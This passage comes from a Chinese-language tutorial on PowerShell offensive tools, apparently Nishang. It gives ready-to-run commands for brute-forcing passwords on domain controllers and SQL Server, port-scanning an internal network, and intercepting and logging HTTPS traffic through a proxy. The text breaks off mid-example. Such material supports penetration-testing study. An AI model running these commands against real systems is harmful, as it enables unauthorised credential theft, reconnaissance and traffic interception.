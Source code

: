 ### 6.扫描
#### Invoke-BruteForce
这个脚本可以对SQL Server、域控制器、Web以及FTP进行口令的爆破
执行方式：

```powershell
PS > Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service ActiveDirectory -StopOnSuccess -Verbose //爆破域控制器
PS > Invoke-BruteForce -ComputerName SQLServ01 -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose  //爆破SQL Server
PS > cat C:\test\servers.txt | Invoke-BruteForce -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose  //爆破server.txt中所有servers的SQL Server
```
主要的参数：
* ComputerName 用于指定对应服务的计算机名
* UserList 用户名字典
* PasswordList 密码字典
* Service 服务类型（注意默认为：SQL）
* StopOnSuccess 成功找到一个后就停止执行
#### Invoke-PortScan
利用这个脚本我们可以在目标机器上对内网进行端口扫描
执行方式：

```powershell
PS >Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.10.254 -ResolveHost -ScanPort -Port 80
```
主要的参数：
* StartAddress 扫描范围开始的地址
* EndAddress   扫描范围结束的地址
* ScanPort 进行端口扫描
* Port 指定扫描端口（默认扫描端口：21,22,23,53,69,71,80,98,110,139,111,
389,443,445,1080,1433,2001,2049,3001,3128,5222,6667,6868,7777,7878,8080,1521,3306,3389,5801,5900,5555,5901）
* TimeOut  设置超时时间


### 7.中间人
#### Invoke-Interceptor
这个脚本可以通过建立一个代理服务器的方式来拦截HTTPS的请求，并将这些请求记录下来
执行方式：

```powershell
PS >Invoke-Interceptor -ProxyServer 192.168.230.21 -ProxyPort 3128 //这条命令将默认在8081端口监听并把请求发送给上游代理的3128端口
```
可以通过ListenPort来修改我们目标机器上的监听端口（默认8081端口）
例如
我们在目标机器上执行：